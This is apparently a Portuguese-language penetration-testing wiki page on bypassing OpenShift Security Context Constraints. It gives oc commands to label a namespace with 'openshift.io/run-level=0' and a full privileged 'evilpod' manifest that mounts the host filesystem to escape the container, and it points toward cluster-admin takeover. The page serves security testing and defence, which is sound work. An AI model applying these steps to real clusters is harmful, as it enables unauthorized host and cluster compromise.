

# Openshift - SCC bypass

**O autor original desta página é** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespaces Privilegiados

Por padrão, o SCC não se aplica aos seguintes projetos:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Se você implantar pods dentro de um desses namespaces, nenhum SCC será aplicado, permitindo a implantação de pods privilegiados ou a montagem do sistema de arquivos do host.

## Rótulo de Namespace

Há uma maneira de desativar a aplicação do SCC em seu pod de acordo com a documentação da RedHat. Você precisará ter pelo menos uma das seguintes permissões:

- Criar um Namespace e Criar um Pod neste Namespace
- Editar um Namespace e Criar um Pod neste Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
A etiqueta específica `openshift.io/run-level` permite que os usuários contornem os SCCs para aplicativos. De acordo com a documentação da RedHat, quando essa etiqueta é utilizada, nenhum SCC é aplicado a todos os pods dentro desse namespace, efetivamente removendo quaisquer restrições.

<figure><figcaption></figcaption></figure>

## Adicionar Etiqueta

Para adicionar a etiqueta no seu namespace:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Para criar um namespace com o rótulo através de um arquivo YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Agora, todos os novos pods criados no namespace não devem ter nenhum SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Na ausência de SCC, não há restrições na definição do seu pod. Isso significa que um pod malicioso pode ser facilmente criado para escapar para o sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Agora, tornou-se mais fácil escalar privilégios para acessar o sistema host e, subsequentemente, assumir todo o cluster, ganhando privilégios de 'cluster-admin'. Procure pela parte **Node-Post Exploitation** na seguinte página:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Rótulos personalizados

Além disso, com base na configuração alvo, alguns rótulos / anotações personalizados podem ser usados da mesma forma que no cenário de ataque anterior. Mesmo que não seja feito para isso, rótulos podem ser usados para conceder permissões, restringir ou não um recurso específico.

Tente procurar por rótulos personalizados se você puder ler alguns recursos. Aqui está uma lista de recursos interessantes:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Liste todos os namespaces privilegiados
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avançado

No OpenShift, como demonstrado anteriormente, ter permissão para implantar um pod em um namespace com o rótulo `openshift.io/run-level` pode levar a uma tomada de controle direta do cluster. Do ponto de vista das configurações do cluster, essa funcionalidade **não pode ser desativada**, pois é inerente ao design do OpenShift.

No entanto, medidas de mitigação como **Open Policy Agent GateKeeper** podem impedir que os usuários definam esse rótulo.

Para contornar as regras do GateKeeper e definir esse rótulo para executar uma tomada de controle do cluster, **os atacantes precisariam identificar métodos alternativos.**

## Referências

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
